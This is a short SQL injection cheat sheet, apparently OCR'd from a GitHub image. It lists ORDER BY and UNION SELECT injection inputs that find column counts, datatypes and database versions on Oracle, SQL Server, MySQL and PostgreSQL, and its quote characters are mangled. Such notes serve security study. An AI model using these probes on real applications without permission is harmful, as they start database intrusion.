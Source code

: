 <h2>SQL Injection(SQLi) Vulnerabilities </h2>

<b>SQL queries to determine the number of COLUMNS, DATATYPES of the columns and VERSION on Oracle, Microsoft, MySQL and PostgreSQL</b>

| Database | Columns Query | Datatypes | Version |
|----------|---------------|-----------|---------|
| Oracle |  ‘ order by 1-- </br> ‘ order by 3-- </br> In this example: 3 - 1 = 2(no. of columns) | ‘ UNION SELECT ‘a’ , ‘a’ FROM DUAL-- | ‘ UNION SELECT banner, NULL FROM v$version-- </br> SELECT banner FROM v$version |  
| Microsoft | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT @@version | 
| MySQL | ‘ order by 1# | ‘ UNION SELECT ‘a’ , ‘a’# | SELECT @@version </br> ‘ UNION SELECT @@version, ‘a’#|
| PostgreSQL | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT version() |


